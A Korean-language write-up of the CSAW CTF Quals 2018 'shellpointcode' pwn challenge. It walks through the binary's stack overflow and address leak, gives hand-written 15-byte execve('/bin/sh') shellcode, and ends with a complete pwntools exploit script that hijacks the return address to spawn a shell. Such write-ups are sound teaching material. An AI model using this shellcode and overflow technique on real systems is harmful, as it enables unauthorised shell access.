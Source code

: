 ```yaml
---
layout: post
title: "[CSAW CTF Quals 2018] shellpointcode(shell->code) 풀이"
date: 2018-12-08 00:41
categories: "[Pwn]CTF"
tags: N0N4M3D
---
```


>### [shellpointcode](/pic/CTF/CSAW2018/shellpointcode/shellpointcode)

- - -
# 1. 코드 분석

{: refdef: style="text-align: center;"}
![checksec](/pic/CTF/CSAW2018/shellpointcode/checksec.png)
{: refdef}

문제 이름도 그렇고, `NX`가 안걸려 있는 걸 보니 쉘코드를 사용하라는 문제인 것 같네요.

{: refdef: style="text-align: center;"}
![main](/pic/CTF/CSAW2018/shellpointcode/main.png)
{: refdef}

`main`은 볼께 없네요

{: refdef: sytle="text-align: center;"}
![nononode](/pic/CTF/CSAW2018/shellpointcode/nononode.png)
{: refdef}

각각 15바이트를 받을 수 있고 `BOF`가 일어날 곳은 딱히 없어요

{: refdef: sytle="text-align: center;"}
![printnode](/pic/CTF/CSAW2018/shellpointcode/printnode.png)
{: refdef}

어떤 주소값을 `leak` 해주고, 그 주소값 다음에 있는 문자열을 출력해줘요

{: refdef: sytle="text-align: center;"}
![goodbye](/pic/CTF/CSAW2018/shellpointcode/goodbye.png)
{: refdef}

이니셜을 `s`에 저장해요. 그런데 변수 `s`는 `rbp-0x3`에 위치해 있는데 

`fgets` 함수로 32바이트나 받아버려서 `BOF`가 일어나네요!!!

- - -

# 2. 프로그램 분석

{: refdef: sytle="text-align: center;"}
![run](/pic/CTF/CSAW2018/shellpointcode/run.png)
{: refdef}

{: refdef: sytle="text-align: center;"}
![stack](/pic/CTF/CSAW2018/shellpointcode/stack.png)
{: refdef}

터미널에서 위와 같이 실행시키고 `gdb`를 이용해 `goodbye` 함수가 끝나기 직전에 브레이크포인트를 잡고 분석해봤어요. 
저 스택 화면을 보기 쉽게 아래의 그림으로 정리해봤어요.

{: refdef: sytle="text-align: center;"}
![struct](/pic/CTF/CSAW2018/shellpointcode/struct.png)
{: refdef}

`aslr`로 인해 주소가 계속 바뀌어도 저 스택의 형태는 일정하게 유지가 돼요.

이제 취약점들도 찾았겠다 스택 구조도 파악했겠다 찾을꺼 다 찾았으니 삽질을 시작해볼까요?

- - -

# 3. 공격 방법

1시간 반? 정도 이런저런 삽질을 해본 결과 공격할 수 있는 방법을 찾게되었어요! 

1. `node 1`에 쉘코드를 삽입한다

2. `node 2`에 `"///bin/sh\x00"` 문자열을 삽입한다

3. `fgets`에서 일어나는 `bof` 취약점을 이용해 `goodbye`의 `ret`를 `node 1`으로 변경한다

4. exploit 성공?

쉘코드는 15바이트 내로 다음과 같이 작성했어요

```asm
push rbx	/* rbx값 == 0x00 */
pop rax		/* rax == 0x00 */
pop rdi		/* rdi == rsp */
push rax	/* push 0x00 */
pop rdx		/* rdx == 0x00 */
push rax	/* push 0x00 */
pop rsi		/* rsi == 0x00 */
mov al,0x3b	/* al == 0x3b */
syscall
```

64비트 시스템 콜을 이용해 `execve('rdi',0,0)`을 실행하는 쉘코드입니다.

`rbx`의 값이 0x00이란 것은 `gdb`로 분석하면서 알았어요

- - -
쉘코드를 만들기 위해 다음의 사이트를 참고

> https://defuse.ca/online-x86-assembler.htm

> http://crasy.tistory.com/75

- - -

저 시나리오 대로 값들을 넣으면 스택 구조는 다음과 같이 될꺼에요.

{: refdef: sytle="text-align: center;"}
![attack](/pic/CTF/CSAW2018/shellpointcode/attack.png)
{: refdef}

저기서 `goodbye` 함수가 끝나면서 `ret`을 실행시키면 `rip`는 `node 1`을 가리킬 것 이고, 

스택 구조는 다음과 같이 변하게 되요.

{: refdef: sytle="text-align: center;"}
![attack2](/pic/CTF/CSAW2018/shellpointcode/attack2.png)
{: refdef}

이 상태에서 저 쉘코드가 실행되면 `execve("/bin/sh\x00",0,0)`가 만들어지고 실행됩니다ㅎㅎ

아 참고로 `"/bin/sh\x00"`가 아닌 `"///bin/sh\x00"`으로 적어주는 이유는 `fgets` 함수로 

문자열을 넣으면 `\x0a`와 `\x00`을 문자열 끝에 넣어주는데 이게 `"/b"`까지 침범해서 `"//"`를 추가해준 거에요

- - - 

# 4. 공격 코드

```python
from pwn import *
#context.log_level = "debug"

shellcode = "\x53\x58\x5F\x50\x5A\x50\x5E\xB0\x3B\x0F\x05"
s = remote('localhost', 4444)
#s = process('./shellpointcode')

s.recvuntil('node 1:  \n')
s.sendline(shellcode.rjust(15,'\x90'))
s.recvuntil('node 2: \n')
s.sendline('///bin/sh\x00')

s.recvuntil("node.next: ")
leak = s.recvuntil('\n')
ret = int(leak,16)+40
log.info(hex(ret))

#pause()

s.recvuntil("initials?\n")

payload = "A"*11
payload += p64(ret)
payload += p64(int(leak,16)+10)
s.sendline(payload)

#pause()

s.interactive()
```